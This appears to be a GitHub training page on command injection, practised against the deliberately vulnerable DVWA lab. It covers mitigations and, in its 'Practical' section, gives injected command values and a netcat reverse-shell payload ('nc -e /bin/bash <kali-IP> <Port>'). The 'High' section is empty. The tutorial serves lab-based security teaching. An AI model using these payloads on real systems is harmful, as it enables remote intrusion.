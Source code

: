 ## 1. Command Execution/Injection:
- A vulnerability that allows an attacker to execute arbitrary Linux/windows commands in the Input field on a site.

### Real Life Example:
- Imagine a website that allows users to search for files by entering a filename. If the `website doesn't properly sanitize user input`, an attacker could input malicious commands instead of filenames. 
- For instance, if the attacker inputs "; ls -la", it could execute the "ls -la" command on the server, listing all files in the directory.

### How to Avoid it:
```
Implement proper input validation and sanitization techniques.
Use parameterized queries or prepared statements to interact with databases, preventing SQL injection attacks.
Avoid executing system commands based on user input. If unavoidable, use safe APIs or libraries that automatically handle input sanitization.
Apply principle of least privilege, ensuring that application processes have only the necessary permissions to execute specific commands.
Regularly update and patch software to fix known vulnerabilities that could be exploited for command execution.
```

### Practical:
> Security: Low
- Open DVWA > Set Security: Low > Command Execution: `192.168.0.0 ; ls -la` or `192.168.0.0 && ls -la`
- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/eb9cd546-bffe-484f-af97-e4c6c44ba878)

- To exploit > Use `natcat/nc` > Listen On Kali: `nc -lvp (Listen, Verbose, Port) 12345` > Execute On DVWA in Command Execution: `192.168.0.0 ; nc -e /bin/bash <kali-IP> <Port>`
> -e /bin/bash: Specifies that Netcat should execute /bin/bash upon successfully establishing a connection. This effectively creates a remote shell (reverse shell) on the target machine.

> Security: Mid
- Open DVWA > Set Security: Low > Command Execution: `192.168.0.0 | ls -la` or `192.168.0.0 & ls -la`
- To exploit > Use `natcat/nc` > Listen On Kali: `nc -lvp (Listen, Verbose, Port) 12345` > Execute On DVWA in Command Execution: `192.168.0.0 ; nc -e /bin/bash <kali-IP> <Port>`

> Security: High
- The Code should written like this.










